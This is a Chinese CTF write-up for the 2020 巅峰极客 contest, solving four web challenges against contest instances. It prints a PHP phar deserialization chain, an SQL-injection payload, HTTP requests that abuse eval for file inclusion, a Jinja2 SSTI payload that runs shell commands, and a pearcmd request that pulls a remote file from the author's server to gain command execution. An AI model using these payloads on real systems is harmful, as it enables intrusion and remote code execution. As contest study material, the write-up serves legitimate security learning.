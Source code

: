 categories:
- 比赛
tags:
- web
- ctf
- wp
title:         巅峰极客2020wp
---
# 巅峰极客2020

**文章首发于[安全客](https://www.anquanke.com/post/id/218977)**

## babyphp2

文件包含：http://eci-2ze5jqyhfniloont8y3x.cloudeci1.ichunqiu.com/index.php?action=../../../../../../../../../../../var/www/html/login
登入接口ban掉：
```
`,\,@,%,#
```
```
[11:00:52] 200 -   68B  - /index.php
[11:00:53] 200 -   68B  - /index.php/login/
[11:01:33] 200 -  583B  - /login.php
[11:03:57] 403 -  335B  - /server-status
[11:04:19] 403 -  336B  - /server-status/
[11:05:21] 200 -  422B  - /upload.php
[11:05:22] 403 -  329B  - /upload/
[11:05:41] 301 -  383B  - /upload  ->  http://eci-2ze5jqyhfniloont8y3x.cloudeci1.ichunqiu.com/upload/
[11:06:20] 200 -    4KB - /www.zip
```

构造反序列化链：`dbCtrl::__destruct->User::__toString->Reader::__set`

```php
<?php

Class Reader{
    public $filename;
    public $result;
    public function __construct(){

    }

}

class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public $backup;
    public function __construct(){
        $this->backup="/flag";
        $this->nickname=new Reader();
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="p3rh4ps";
    public $dbpass="p3rh4ps";
    public $database="p3rh4ps";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct(){
        $this->token=new User();
    }
}

$a = new dbCtrl();
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub,只要后面部分为__HALT_COMPILER(); 
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```


`compress.zlib://phar://phar.phar/test.txt绕过限制`



##  babyback

php:5.6.40



robots.txt



```
User-agent: *
Disallow: /admin
```

```
[12:31:50] 200 -   38B  - /admin/
[12:31:50] 200 -   38B  - /admin/?/login
[12:31:50] 200 -   38B  - /admin/index.php
[12:31:57] 200 -   48B  - /check.php
[12:32:13] 200 -   33B  - /robots.txt
[12:41:07] 200 -   29B  - /admin/.bowerrc
[12:41:26] 301 -  185B  - /admin/assets  ->  http://eci-2ze91js64coeqpjda9u8.cloudeci1.ichunqiu.com/admin/assets/
[12:41:28] 200 -    1KB - /admin/bower.json
[12:41:38] 301 -  185B  - /admin/images  ->  http://eci-2ze91js64coeqpjda9u8.cloudeci1.ichunqiu.com/admin/images/
[12:41:39] 200 -   38B  - /admin/index.php
[12:41:57] 200 -  620B  - /admin/package.json
```
check.php 过滤了： 

```
",',-,=,;,select
```



```
username=aaaa\&password= /sleep(5)%23bbbb
```



存在sql注入

```
账号密码
admin
uAreRigHt
```

![image2642](https://raw.githubusercontent.com/Explorersss/photo/master/20201020155506.png)

```
EVAL($COMMAND."=FALSE");
过滤：;,",', ,|,`,^,\,;,/,*,(,),&,$,#,f,F
```

任意文件包含：
```
POST /admin/ HTTP/1.1
Host: eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1600698604,1601088882; UM_distinctid=174b11256cb2fd-030f86f83a6db3-333769-240000-174b11256cd6f1; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1601100971; PHPSESSID=aabua1gfiqc9s8i13u3iqace72; __jsluid_h=89eac162499bc32092c0474accd770c5
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrD05yt5m
Content-Length: 161

------WebKitFormBoundaryrD05yt5m
Content-Disposition: form-data; name="command"

?><?=include<<<DDDD
.bowerrc
DDDD
?>
------WebKitFormBoundaryrD05yt5m--

```

读取flag
```
POST /admin/ HTTP/1.1
Host: eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1600698604,1601088882; UM_distinctid=174b11256cb2fd-030f86f83a6db3-333769-240000-174b11256cd6f1; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1601100971; PHPSESSID=aabua1gfiqc9s8i13u3iqace72; __jsluid_h=89eac162499bc32092c0474accd770c5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

command=%3f%3e%3c%3f%3dinclude%7e%3c%3c%3cDDDD%0d%0a%D0%99%93%9E%98%0d%0aDDDD%0d%0a%3f%3e
```

## babyflask

`GET /loged?name=%7B%7B2*2%7D%7D`
存在SSTI
模板引擎jinja2

``````
http://eci-2ze3domag0jprtzax0lx.cloudeci1.ichunqiu.com:8888/loged?name={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}{%%20if%20c.__name__==%27_IterationGuard%27%20%}{{%20c.__init__.__globals__[%27__builtins__%27][%27eval%27](%22__import__(%27os%27).popen(%27cat%20/flag%27).read()%22)%20}}{%%20endif%20%}{%%20endfor%20%}

``````

拿flag



## MeowWorld

任意文件读取

hint:register_argc_argv

```
register_argc_argv	TRUE	
由于该设置为 TRUE，将总是可以在 CLI SAPI 中访问到 argc（传送给应用程序参数的个数）和 argv（包含有实际参数的数组）。

对于 PHP 4.3.0，在使用 CLI SAPI 时，PHP 变量 $argc 和 $argv 已被注册并且设定了对应的值。而在这之前的版本，这两个变量在 CGI 或者 模块 版本中的建立依赖于将 PHP 的设置选项 register_globals 设为 on。除了版本和 register_globals 设定以外，可以随时通过调用 $_SERVER 或者 $HTTP_SERVER_VARS 来访问它们。例如：$_SERVER['argv']
```



https://khack40.info/camp-ctf-2015-trolol-web-write-up/

找到一个类似的题目，但是他们是用变量覆盖来执行

阅读pearcmd的代码发现：`if (!isset($_SERVER['argv']) && !isset($argv) && !isset($HTTP_SERVER_VARS['argv']))`

![image6158](https://raw.githubusercontent.com/Explorersss/photo/master/20200926190107.png)

```
http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?list+install+--installroot+/tmp/+http://ccreater.top:60006/install.php++++++++++++++$&f=pearcmd&
```

后面多余部分并不影响我们下载恶意文件





`http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?f=/tmp/tmp/pear/download/install`

任意命令执行